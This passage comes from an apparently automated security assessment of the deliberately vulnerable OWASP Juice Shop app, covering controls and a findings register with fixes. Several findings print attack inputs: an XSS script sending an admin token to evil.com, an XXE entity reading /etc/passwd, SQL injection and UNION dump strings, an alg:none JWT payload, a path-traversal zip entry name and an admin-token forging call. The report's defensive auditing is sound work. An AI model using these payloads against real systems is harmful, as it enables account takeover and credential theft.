<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.7.1 XSS Output Encoding](#771-xss-output-encoding)

**Implemented controls:** Angular's default template interpolation (`{{ }}`) HTML-encodes values correctly; Helmet `xssFilter` and `noSniff` headers are set.

**Assessment:** Angular's default template binding escapes user-controlled values correctly. The control is defeated selectively where `DomSanitizer.bypassSecurityTrustHtml()` is called explicitly, bypassing Angular's built-in escaping. The Helmet `xssFilter` header is a legacy `X-XSS-Protection` browser hint that no modern browser enforces; it does not compensate for explicit sanitizer bypasses in the SPA code.

<a id="xss-output-encoding"></a>
#### 7.7.1 XSS Output Encoding

**Status:** 🔴 Missing - `bypassSecurityTrustHtml()` is called explicitly in the admin component, disabling Angular's default escaping for attacker-controlled content.

Angular's template engine HTML-encodes interpolated values by default when using `{{ }}` binding. `administration.component.ts` fetches feedback records and user email addresses from the API, then passes them through `this.sanitizer.bypassSecurityTrustHtml()` before binding to `[innerHTML]`.

**Security assessment**

Two call-sites in `administration.component.ts` disable Angular's default output encoding:

- Line 78: `feedback.comment = this.sanitizer.bypassSecurityTrustHtml(feedback.comment)` - feedback body from any unauthenticated submitter is rendered as raw HTML in the admin panel.
- Line 60: `this.sanitizer.bypassSecurityTrustHtml(user.email)` - user email is also rendered as raw HTML.

An unauthenticated attacker posts `<script>fetch('https://evil.com/?t='+localStorage.getItem('token'))</script>` to `POST /api/Feedbacks`. When an admin opens the `/administration` panel, the script executes in the admin's browser and exfiltrates the admin JWT from `localStorage`. No Content-Security-Policy restricts the exfiltration destination.

The bypass calls at the injection point:

```ts
// administration.component.ts:78
feedback.comment = this.sanitizer.bypassSecurityTrustHtml(feedback.comment)
```

**Relevant findings**

- 🔴 [F-001](#f-001) — Stored XSS in the admin feedback panel via explicit `bypassSecurityTrustHtml()` calls.
- 🟠 [F-017](#f-017) — Stored XSS — `routes/saveLoginIp.ts:18` via unsanitized HTTP header value written to database and rendered.

### 7.8 Browser and Cross-Origin Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.8.1 Anti-Clickjacking](#781-anti-clickjacking)

**Implemented controls:** `helmet` 4.6.0 is configured with `frameguard`, `noSniff`, and `xssFilter`; HSTS is set via Helmet defaults.

**Assessment:** Helmet is present and supplies several browser-hardening headers. Clickjacking protection via `X-Frame-Options` is in place. No `Content-Security-Policy` header is emitted - the strongest single control against XSS exfiltration - which means the stored XSS in the admin panel has no policy-level barrier preventing data exfiltration to an external origin. CORS is configured but the policy has not been confirmed as restrictive.

<a id="anti-clickjacking"></a><a id="anti-clickjacking-x-frame-options"></a>
#### 7.8.1 Anti-Clickjacking

**Status:** 🟡 Partial - `X-Frame-Options` is set via Helmet `frameguard`, but no Content-Security-Policy `frame-ancestors` directive supplements it.

`helmet` 4.6.0 is initialized in `server.ts` and emits `X-Frame-Options: SAMEORIGIN` via the `frameguard` option. This prevents the application from being embedded in a cross-origin `<iframe>`. The Helmet `noSniff` option emits `X-Content-Type-Options: nosniff`, preventing MIME-type sniffing on served resources.

**Security assessment**

`X-Frame-Options: SAMEORIGIN` is a legacy header with broad browser support; the modern equivalent is the `Content-Security-Policy: frame-ancestors 'self'` directive. CSP `frame-ancestors` is not present. More materially, no `Content-Security-Policy` at all is emitted - not for `script-src`, `connect-src`, or `default-src`. This absence is the direct enabler for the stored XSS exfiltration path: the admin feedback XSS can call `fetch('https://evil.com/...')` because there is no `connect-src` restriction. Helmet's `xssFilter` emits `X-XSS-Protection: 0` (disabling the legacy IE filter) which is correct behavior, but provides no protection in modern browsers.

**Relevant findings**

- No dedicated clickjacking finding routed in this assessment.

_Additional cataloged controls without a dedicated subsection (no implementation prose and no linked findings): CORS Policy, Content Security Policy (CSP)._

### 7.9 Cryptography Secrets and Data Protection

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.9.1 Password Hashing](#791-password-hashing)
- [7.9.2 Secret and Key Management](#792-secret-and-key-management)

**Implemented controls:** `RS256` asymmetric algorithm is used for JWT signing (the algorithm choice is correct, but the key is committed); HTTPS transport is expected at the deployment layer.

**Assessment:** The two cryptographic controls that underpin all other security guarantees - password hashing resistance and secret-key confidentiality - are both absent. Passwords are stored as unsalted `MD5` digests; the JWT signing private key is a committed string literal. A single SQLite exfiltration yields both the user credential database (recoverable via rainbow table) and the signing key material (enabling arbitrary token forgery).

<a id="password-hashing"></a>
#### 7.9.1 Password Hashing

**Status:** 🔴 Missing - unsalted `MD5` is the sole hashing algorithm; no work factor, no salt, no upgrade path.

Passwords are hashed before storage in the `Users` table. The hashing function is `lib/insecurity.ts:43`. `models/user.ts` calls this function via a Sequelize `beforeCreate`/`beforeUpdate` hook on every password write, so all password paths use the same algorithm.

**Security assessment**

`lib/insecurity.ts:43` computes `crypto.createHash('md5').update(data).digest('hex')` with no salt. `MD5` is a fast, non-keyed digest - a single GPU can test billions of hashes per second against public rainbow tables. Any SQLite exfiltration (via the login SQL injection at `routes/login.ts:34` or direct file access) immediately yields recoverable plaintext for all user passwords. No bcrypt, argon2, or scrypt is used anywhere in the password storage path.

The unsalted hash function:

```ts
// lib/insecurity.ts:43
export const hash = (data: string) => crypto.createHash('md5').update(data).digest('hex')
```

**Relevant findings**

- 🔴 [F-006](#f-006) — JWT algorithm confusion (cross-reference: the key weakness that enables forged tokens shares the same root file).
- 🔴 [F-010](#f-010) — Hardcoded RSA private key at `lib/insecurity.ts:23` is committed alongside the weak hash function.
- 🔴 [F-029](#f-029) — Weak password hashing allows full credential recovery from a database dump.

<a id="secret-and-key-management"></a><a id="secret-management"></a>
#### 7.9.2 Secret and Key Management

**Status:** 🔴 Missing - the RSA private key used for all JWT signing is committed as a string literal in the public repository.

⚠ **Anti-pattern:** Secrets hardcoded in source

`lib/insecurity.ts` defines `privateKey` and `publicKey` as exported string constants at lines 23 and 34 respectively. `issueAuthToken()` at line 56 calls `jwt.sign(payload, privateKey, { algorithm: 'RS256', expiresIn: '6h' })`. The public key is also served unauthenticated at `/encryptionkeys/jwt.pub` (`server.ts:278`), enabling algorithm-confusion attacks where an attacker signs a token with the public key using `alg: HS256`.

**Security assessment**

The private key is a 1024-bit RSA key (below the current 2048-bit minimum) committed to the public repository at `lib/insecurity.ts:23`. There is no environment-variable or secrets-manager path for the key. No key rotation mechanism exists. The same key material underlies both JWT signing and the `deluxeToken()` HMAC derivation at `lib/insecurity.ts:152`. As a result, the entire authentication and entitlement trust model depends on secrecy of a key that is publicly readable.

**Relevant findings**

- 🔴 [F-006](#f-006) — Algorithm confusion exploits the lack of algorithm pinning alongside the exposed public key.
- 🔴 [F-010](#f-010) — Hardcoded RSA private key at `lib/insecurity.ts:23` enables offline JWT forgery for any role.
- 🔴 [F-029](#f-029) — Encryption key file is served unauthenticated at `/encryptionkeys/`, compounding the exposure.

### 7.10 File Parser and Outbound Request Controls

**Verdict:** 🟠 Weak

**Controls covered:**

- [7.10.1 File Parser and Outbound Request Handling](#7101-file-parser-and-outbound-request-handling)

**Implemented controls:** `multer` enforces a file-size limit on uploads; `libxmljs2` is used for XML parsing (library choice is present but misconfigured).

**Assessment:** File upload and parsing controls exist in skeleton form: `multer` constrains upload size and `libxmljs2` handles XML. Both are misconfigured for security. The XML parser enables external entity expansion (`noent: true`), and the zip extraction does not validate entry paths. The unauthenticated static routes for logs and encryption keys at `server.ts:277-281` expose operational data without any access control.

<a id="file-parser-and-outbound-request-handling"></a>
#### 7.10.1 File Parser and Outbound Request Handling

**Status:** 🟠 Weak - XML parser is configured with external entity expansion; archive extraction does not validate entry paths; operational files are exposed unauthenticated.

`routes/fileUpload.ts` handles file uploads using `multer` with a size limit. Uploaded XML files are passed to `libxmljs2`; uploaded zip archives are extracted with `unzipper`. Three static routes in `server.ts` expose operational files: `/support/logs` (access log), `/encryptionkeys/` (JWT public/private key files), and `/encryptionkeys/jwt.pub`.

**Security assessment**

Three independent weaknesses in this surface:

- `routes/fileUpload.ts:83` calls `libxmljs2.parseXmlString(data, { noent: true })`. The `noent: true` flag enables XML external entity expansion - an attacker uploads `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>` and the parser reads and returns the target file.
- `routes/fileUpload.ts` (archive path) extracts zip entry names via `unzipper` without normalizing the entry path. An entry named `../../routes/login.ts` overwrites the server source file.
- `server.ts:277-281` registers `/support/logs` and `/encryptionkeys/` without authentication middleware. Any unauthenticated caller can read the access log and the RSA key files.

**Relevant findings**

- 🔴 [F-012](#f-012) — XXE injection via `libxmljs2` with `noent: true` in the file upload handler.
- 🟠 [F-020](#f-020) — Archive path traversal via crafted zip entry names allows arbitrary file overwrite.
- 🟠 [F-031](#f-031) — Unauthenticated access to `/support/logs` and `/encryptionkeys/` exposes operational and cryptographic material.

### 7.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.11.1 Dependency Update Management](#7111-dependency-update-management)
- [7.11.2 Build Reproducibility](#7112-build-reproducibility)
- [7.11.3 CI/CD Pipeline Permission Hardening](#7113-cicd-pipeline-permission-hardening)

**Implemented controls:** Most third-party GitHub Actions in `ci.yml` are pinned to SHA digests (e.g. `actions/checkout`, `actions/setup-node`, `nick-invision/retry`); GitHub Actions CI is present.

**Assessment:** The CI/CD pipeline uses GitHub Actions and Docker for build and deployment. The supply-chain posture is weak at three layers: automated dependency updating is absent (no Dependabot for npm, no Renovate), the build is not fully reproducible (`package-lock.json` is not committed), and GitHub Actions workflows lack top-level `permissions:` blocks, leaving the default GITHUB_TOKEN grants broader than necessary. One third-party action (`coverallsapp/github-action@v2`) is unpinned by mutable tag.

<a id="dependency-update-management"></a>
#### 7.11.1 Dependency Update Management

**Status:** 🔴 Missing - no automated dependency update tool covers the npm ecosystem; known-vulnerable library versions are present.

Dependency updates in this project are manual. There is no Dependabot configuration for the `npm` package ecosystem, and no `renovate.json` at the repository root. GitHub's Dependabot is configured for GitHub Actions (`package-ecosystem: github-actions`) but not for `npm`.

**Security assessment**

`express-jwt@0.1.3` is present in `package.json`. This version predates the `algorithms` required parameter added in v6 and is the direct root cause of the JWT algorithm confusion finding (🔴 [F-006](#f-006) — JWT Algorithm Confusion — `lib/insecurity.ts:54`). `jsonwebtoken@0.4.0` (also present) is similarly outdated. With no automated update tool, these pinned-at-old-version packages remain vulnerable indefinitely. No Software Composition Analysis (SCA) step in the CI pipeline reports known CVEs against installed packages.

**Relevant findings**

- 🔴 [F-002](#f-002) — Supply-chain finding for the unpinned `coverallsapp/github-action@v2` action in CI.
- 🟠 [F-021](#f-021) — `package-lock.json` is not committed, making the dependency tree non-deterministic.
- 🟠 [F-022](#f-022) — GitHub Actions workflows lack top-level permissions blocks.

<a id="build-reproducibility"></a><a id="build-reproducibility-lockfile"></a>
#### 7.11.2 Build Reproducibility

**Status:** 🔴 Missing - `package-lock.json` is not committed; Docker base image is not digest-pinned.

Reproducible builds require that the exact dependency tree is recorded and that any image used in the build is pinned to an immutable reference. Two structural gaps prevent this.

**Security assessment**

`package-lock.json` is listed in `.gitignore` and is not committed to the repository. As a result, `npm install` resolves the newest compatible versions of all transitive dependencies on each run, potentially introducing changed behavior or known-vulnerable packages between builds. The `Dockerfile:1` uses `node:22-alpine` without a SHA digest - the same tag may resolve to different image layers on successive pulls. `ci.yml:65` runs `npm install` without `--ignore-scripts`, allowing untrusted postinstall scripts to execute in the runner environment.

**Relevant findings**

- 🔴 [F-002](#f-002) — Unpinned CI action allows supply-chain injection.
- 🟠 [F-021](#f-021) — Missing `package-lock.json` means the build resolves transitive dependencies non-deterministically.
- 🟠 [F-022](#f-022) — Missing top-level `permissions:` on GitHub Actions workflows.

<a id="cicd-pipeline-permission-hardening"></a>
#### 7.11.3 CI/CD Pipeline Permission Hardening

**Status:** 🔴 Missing - workflows lack top-level `permissions:` blocks; one workflow uses `pull_request_target` with elevated token scope.

GitHub Actions grants the `GITHUB_TOKEN` default write permissions unless a `permissions:` block restricts the scope. Eleven workflow files in `.github/workflows/` lack a top-level `permissions:` block.

**Security assessment**

Two workflow-level permission issues are present:

- Ten workflow files (`ci.yml`, `release.yml`, `stale.yml`, and others) have no `permissions:` block, granting the default `GITHUB_TOKEN` write access to the repository. A compromised action or injected pull-request payload can use the token to push commits, modify releases, or read secrets.
- `.github/workflows/pr-compliance.yml:4` uses the `pull_request_target` trigger - which runs in the base branch context with write `GITHUB_TOKEN` - while referencing `org_admin_token`. A malicious PR that manipulates the workflow context can access this elevated token.

**Relevant findings**

- 🔴 [F-002](#f-002) — `coverallsapp/github-action@v2` is unpinned and executes with the default GITHUB_TOKEN write access.
- 🟠 [F-021](#f-021) — Non-deterministic dependency installation increases the blast radius of a compromised runner.
- 🟠 [F-022](#f-022) — Missing `permissions:` blocks are the structural gap enabling token-scope abuse.

### 7.12 Real-time and Not Applicable Controls

<!-- §7.12 LOCKED — mechanically derived from absence of real-time findings. Renderer must not rewrite the line below. -->
_Not applicable - no real-time / WebSocket findings routed to this category, and no AI/LLM, GraphQL, or gRPC surfaces detected by the recon scan. Controls catalogued elsewhere (container hardening, dependency determinism) are covered in their primary [§7](#7-security-architecture) sections._

### 7.13 Defense-in-Depth Summary

**Verdict:** -

`RS256` asymmetric signing is the intended algorithm for JWT tokens - a sound choice that would provide meaningful protection if the key were not committed to the repository. Angular's default template escaping protects the majority of rendering paths; the `DomSanitizer` bypass is a targeted deviation, not a systemic absence. Helmet supplies `X-Frame-Options`, `X-Content-Type-Options`, and HSTS, giving basic browser-hardening headers. Most third-party GitHub Actions in `ci.yml` are SHA-pinned, limiting supply-chain exposure at the CI layer.

Restoring layered defense requires fixes at four boundaries: (1) parameterize the SQL queries in `routes/login.ts:34` and `routes/search.ts:23` to close the injection root; (2) move the JWT signing key out of source and into environment-injected secrets, then add the `algorithms: ['RS256']` constraint to `expressJwt`; (3) replace unsalted `MD5` with bcrypt or argon2 in `lib/insecurity.ts:43`; (4) add server-side object-ownership checks in the address, order, payment, and wallet routes so authorization cannot be bypassed by substituting a different user ID in the request body. These four changes address the authentication, injection, cryptographic, and authorization boundaries in sequence - each repair removes a class of exploit that the next layer would otherwise admit.

<!-- enriched:standard -->

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 12 · 🟠 High: 29 · 🟡 Medium: 8 · 🟢 Low: 2 · **Total findings: 51**
**STRIDE Coverage:** Spoofing: 7 · Tampering: 9 · Repudiation: 3 · Information Disclosure: 18 · Denial of Service: 4 · Elevation of Privilege: 10

**Findings index:**<br/>🔴 [F-001](#f-001) — Systemic XSS (`administration.component.ts:78`)<br/>🟠 [F-002](#f-002) — Systemic Unverified Remote Code Execution in CI Pipeline (`ci.yml:161`)<br/>🔴 [F-003](#f-003) — OAuth Implicit Flow with Derived Password (`oauth.component.ts:30`)<br/>🔴 [F-004](#f-004) — Insecure JWT Verification (`lib/insecurity.ts:54`)<br/>🔴 [F-005](#f-005) — Weak Password Hashing MD5 Without Salt (`lib/insecurity.ts:43`)<br/>🔴 [F-006](#f-006) — JWT Algorithm Confusion (`lib/insecurity.ts:54`)<br/>🔴 [F-007](#f-007) — SQL Injection (`routes/login.ts:34`)<br/>🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-009](#f-009) — SQL Injection (`routes/search.ts:23`)<br/>🔴 [F-010](#f-010) — Hardcoded Cryptographic Key (`lib/insecurity.ts:23`)<br/>🔴 [F-011](#f-011) — Role Escalation (`lib/insecurity.ts:54`)<br/>🔴 [F-012](#f-012) — Remote Code Execution (`routes/b2bOrder.ts:23`)<br/>🔴 [F-013](#f-013) — Mass Assignment Role Injection (`server.ts:419`)<br/>🟠 [F-014](#f-014) — Client-Side-Only Admin Route Guard (`app.guard.ts:52`)<br/>🟠 [F-015](#f-015) — Insecure Password Recovery (`routes/resetPassword.ts:41`)<br/>🟠 [F-016](#f-016) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)<br/>🟠 [F-017](#f-017) — Stored XSS (`routes/saveLoginIp.ts:18`)<br/>🟠 [F-018](#f-018) — Rate Limit Bypass (`server.ts:346`)<br/>🟠 [F-019](#f-019) — NoSQL Injection (`routes/showProductReviews.ts:36`)<br/>🟠 [F-020](#f-020) — XML External Entity Injection (`routes/fileUpload.ts:83`)<br/>🟠 [F-021](#f-021) — Query Logging Disabled No Audit Trail for Data Mutations…<br/>🟠 [F-022](#f-022) — Missing Structured Security Audit Log for Auth and Admin Events…<br/>🟠 [F-023](#f-023) — JWT Bearer Token in localStorage (`login.component.ts:101`)<br/>🟠 [F-024](#f-024) — Uses --unsafe-perm install flag — Dockerfile:5<br/>🟠 [F-025](#f-025) — GitHub Actions workflow missing top-level permissions…<br/>🟠 [F-026](#f-026) — Third-party GitHub Action not pinned to commit SHA…<br/>🟠 [F-027](#f-027) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-028](#f-028) — On not committed (`package-lock.json:1`)<br/>🟠 [F-029](#f-029) — Cryptographic Keys Served Unauthenticated (`server.ts:278`)<br/>🟠 [F-030](#f-030) — Access Log Exposure (`server.ts:281`)<br/>🟠 [F-031](#f-031) — Unauthenticated Encryption Key File Exposure (`server.ts:277`)<br/>🟠 [F-032](#f-032) — CTF Flag Broadcast to Unauthenticated WebSocket…<br/>🟠 [F-033](#f-033) — Missing Rate Limit on Login Endpoint (`server.ts:594`)<br/>🟠 [F-034](#f-034) — Event Loop Blocking (`routes/showProductReviews.ts:17`)<br/>🟠 [F-035](#f-035) — Sensitive Routes Registered Without Authentication Middleware…<br/>🟠 [F-036](#f-036) — Untrusted npm Install/Postinstall Scripts Enabled (`ci.yml:65`)<br/>🟠 [F-037](#f-037) — Missing Workflow-Level Permissions Block (`ci.yml:1`)<br/>🟠 [F-038](#f-038) — Pull_request_target with ORG_ADMIN_TOKEN (`pr-compliance.yml:4`)<br/>🟠 [F-039](#f-039) — NoSQL Mass-Update (`routes/updateProductReviews.ts:17`)<br/>🟠 [F-040](#f-040) — Product Modification Without Auth Guard (`server.ts:369`)<br/>🟡 [F-041](#f-041) — Missing Authentication Event Audit Log (`routes/login.ts:18`)<br/>🟡 [F-042](#f-042) — Runs as root — Dockerfile:1<br/>🟡 [F-043](#f-043) — No container image signing in CI — :1<br/>🟡 [F-044](#f-044) — GitHub Actions GITHUB_TOKEN not minimized to contents:read (`lock.yml:1`)<br/>🟡 [F-045](#f-045) — Dependabot does not cover npm ecosystem — (missing):1<br/>🟡 [F-046](#f-046) — Unbounded In-Memory Session Store (`lib/insecurity.ts:76`)<br/>🟡 [F-047](#f-047) — Unbounded Unauthenticated WebSocket Connection…<br/>🟡 [F-048](#f-048) — Unauthenticated WebSocket Connection (`socket-io.service.ts:21`)<br/>🟢 [F-049](#f-049) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-050](#f-050) — Renovate config not found at repo root (`renovate.json:1`)<br/>🟠 [F-051](#f-051) — Data disclosure (`challenges.yml:1381`)

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-05"></a><a id="th-06"></a><a id="th-10"></a><a id="th-11"></a><a id="th-04"></a><a id="th-12"></a><a id="th-13"></a><a id="th-14"></a><a id="th-16"></a><a id="th-17"></a>

### 🔴 Critical (12)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Hardcoded Cryptographic Key

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:23`

**Issue:** The RSA private key used to sign all JWTs is embedded as a string literal at `lib/insecurity.ts:23`. The Juice Shop repository is public on GitHub; anyone who clones it has the full private key.

With it, they call `jwt.sign({ data: { id: 1, role: 'admin', email: 'admin@juice-sh.op' } }, privateKey, { algorithm: 'RS256', expiresIn: '6h' })` and produce a token the server's `isAuthorized()` middleware accepts without question. The same key is reused by `deluxeToken()` at line 152 - so the hardcoded secret also compromises the deluxe-subscription entitlement check.

Any party with repository read access can forge tokens for any user role, bypassing the entire authentication layer.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - A 1024-bit RSA private key PEM is assigned as a string constant at `lib/insecurity.ts:23`, committed to the public repository.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❶ [M-023](#m-023) — Move cryptographic keys to a managed secret store

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Improper Authentication

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts:30`

**Issue:** The Google OAuth integration at `login.component.ts:134` uses `response_type=token`, initiating the implicit flow. The access_token arrives in the URL fragment (#access_token=...) where it is visible to any JavaScript executing on the page, stored in browser history, and potentially leaked via the Referer header.

At `oauth.component.ts:30`, the component derives the user's Juice Shop password as `btoa(profile.email.split('').reverse().join(''))` - a deterministic, reversible transformation of the email claim. Any attacker who knows a target's email address can compute this password offline with a one-liner and log into the account directly via `/rest/user/login`, bypassing OAuth entirely.

An attacker knowing any user's email can compute and use their Juice Shop password, fully bypassing the OAuth flow and gaining authenticated access to the account.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `oauth.component.ts:30` derives the account password from the email via `btoa(email.split('').reverse().join(''))`, and `login.component.ts:134` passes `response_type=token` with no `state` parameter.

```typescript
// frontend/src/app/oauth/oauth.component.ts:30
  ngOnInit (): void {
    this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
      next: (profile: any) => {
        const password = btoa(profile.email.split('').reverse().join(''))
        this.userService.save({ email: profile.email, password, passwordRepeat: password }).subscribe({
          next: () => {
            this.login(profile)
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❷ [M-016](#m-016) — Harden the authentication flow

**Classification:** OAuth / OIDC Misconfiguration · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · Improper Authentication

**Severity:** 🔴 Critical  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:54`

**Instances (6):** 🔴 `lib/insecurity.ts:54`, 🟠 `lib/insecurity.ts:55`, 🟠 `lib/insecurity.ts:58`, 🔴 `lib/insecurity.ts:191`, 🔴 `routes/chatbot.ts:248`, 🔴 `routes/verify.ts:117`

**Issue:** `security.isAuthorized()` at `lib/insecurity.ts:54` calls `expressJwt({ secret: publicKey })` without specifying an `algorithms` array. Versions of `express-jwt` prior to the fix for `CVE-2020-15084` accept `alg:none` tokens when no algorithm constraint is applied - an attacker crafts a JWT with header `{"alg":"none"}` and an arbitrary payload such as `{"data":{"role":"admin","email":"attacker@x.com"}}`, omits the signature, and the middleware accepts it.

Separately, the RSA private key is hardcoded at `lib/insecurity.ts:23` (see auth-003), so an attacker can also forge fully signed `RS256` tokens offline. Either path produces a JWT the server treats as authoritative.

Attacker mints a JWT for any user identity, including `role: 'admin'`, without valid credentials.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `expressJwt` is invoked with only `{ secret: publicKey }` - no `algorithms: ['RS256']` constraint - leaving the server open to the `alg:none` downgrade attack.

```typescript
// lib/insecurity.ts:54
  return str
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❶ [M-017](#m-017) — Harden the authentication flow

**Classification:** Broken Authentication · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · Password Hash with Insufficient Effort

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + File Store)  ·  **Location:** `lib/insecurity.ts:43`

**Issue:** The `hash()` function at `lib/insecurity.ts:43` computes `crypto.createHash('md5').update(data).digest('hex')` with no salt. All user passwords stored in `data/juiceshop.sqlite` (Users table, `password` column) are unsalted `MD5` digests.

An attacker who obtains the SQLite file - via SQL injection union-select (see data-layer-002), path traversal, or server compromise - can recover all plaintext passwords from public rainbow tables in seconds. Recovered credentials allow the attacker to impersonate any user including administrators.

Full plaintext password recovery for all accounts from a single SQLite file exfiltration, enabling identity spoofing across the application.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `security.hash()` uses `crypto.createHash('md5')` without salt; `models/user.ts:77` calls it unconditionally via the Sequelize `set` hook on every password write.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❶ [M-018](#m-018) — Hash passwords with a strong, salted algorithm

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Use of a Broken or Risky Cryptographic Algorithm

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `lib/insecurity.ts:54`

**Issue:** `express-jwt@0.1.3` is configured at `lib/insecurity.ts:54` as `expressJwt({ secret: publicKey })` with no `algorithms:` allowlist. This version of express-jwt predates the `algorithms` parameter and accepts any algorithm the token header declares.

An attacker crafts a token with `alg: none` (unsigned) or switches the algorithm to `HS256` and signs with the RSA public key (which is served unauthenticated at `/encryptionkeys/jwt.pub`). The resulting forged token passes `jwt.verify()` and grants the attacker the identity of any user ID or role they embed in the payload - including `role: admin`.

Complete authentication bypass: attacker can forge tokens for any user account including admin, without knowing the private key.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `isAuthorized()` calls expressJwt with only { secret: publicKey } - no algorithms restriction, using `express-jwt@0.1.3` which lacks algorithm enforcement.

**Fix:** Replace the broken algorithm with a vetted modern primitive (AES-GCM / Argon2id / Ed25519) → ❶ [M-019](#m-019) — Replace the weak cryptographic algorithm

**Classification:** Broken Authentication · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/login.ts:34`

**Issue:** `req.body.email` and `req.body.password` are interpolated directly into a raw SQL string at `routes/login.ts:34` via `models.sequelize.query(\`SELECT * FROM Users WHERE email = '\${`req.body.email` || ''}' AND password = '\${`security.hash`(`req.body.password` || '')}'...\`)`. No parameterization or prepared statements are used.

An attacker submits `' OR '1'='1` as the email value, which short-circuits the WHERE clause and returns the first Users row - the seeded admin account. Beyond authentication bypass, the same surface allows UNION-based data extraction: `' UNION SELECT 1,email,password,4,5,6,7,8,9,10,11,12,13 FROM Users--` dumps all user credential hashes in a single request.

Unauthenticated attacker gains admin-level access to the application and can exfiltrate the entire Users table including all password hashes.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `models.sequelize.query()` is called with a template-literal string concatenating `req.body.email` and `security.hash(req.body.password)` without placeholders, making the email field a direct SQL injection point.

```typescript
// routes/login.ts:34

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
        if (user.data?.id && user.data.totpSecret !== '') {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-020](#m-020) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `routes/address.ts:11`

**Instances (20):** 🔴 `routes/address.ts:11`, 🔴 `routes/address.ts:18`, 🔴 `routes/address.ts:29`, 🟠 `routes/basketItems.ts:68`, 🔴 `routes/dataExport.ts:26`, 🟠 `routes/delivery.ts:34`, 🔴 `routes/deluxe.ts:25`, 🔴 `routes/deluxe.ts:30` … (+12 more)

